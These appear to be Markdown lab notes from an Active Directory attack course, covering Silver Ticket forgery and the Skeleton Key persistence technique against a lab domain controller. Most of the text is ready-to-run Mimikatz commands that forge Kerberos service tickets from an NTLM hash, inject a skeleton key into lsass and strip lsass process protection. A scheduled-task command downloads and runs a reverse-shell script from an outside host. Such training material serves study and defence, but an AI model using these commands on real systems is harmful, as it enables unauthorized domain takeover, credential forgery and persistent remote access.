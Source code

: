 # Silver Tickets

• A valid TGS (Golden ticket is TGT).

• Encrypted and Signed by the NTLM hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.

• Services rarely check PAC (Privileged Attribute Certificate).

• Services will allow access only to the services themselves.

• Reasonable persistence period (default 30 days for computer accounts).

#### Using hash of the Domain Controller computer account, below command provides access to shares on the DC.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

![image](https://user-images.githubusercontent.com/40224197/211092932-bf2aa3a3-c1a2-43fb-8954-1238cfa72bc7.png)
![image](https://user-images.githubusercontent.com/40224197/211092967-4012af73-7d9e-4d4a-bca3-7e8bb7a1a0a8.png)

#### Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target:
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

#### Schedule and execute a task.
```cmd
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'" 

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

# Learning Objective 9 

Try to get command execution on the domain controller by creating silver ticket for:

– HOST service

– WMI

# Skeleton Key

- Skeleton key is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password.

- NOT persistent across reboots

#### Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

#### Now, it is possible to access any machine with a valid username and password as "mimikatz"
```powershell
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

#### In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
```cmd
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

# Learning Objective 10

Use Domain Admin privileges obtained earlier to execute the Skeleton Key attack.


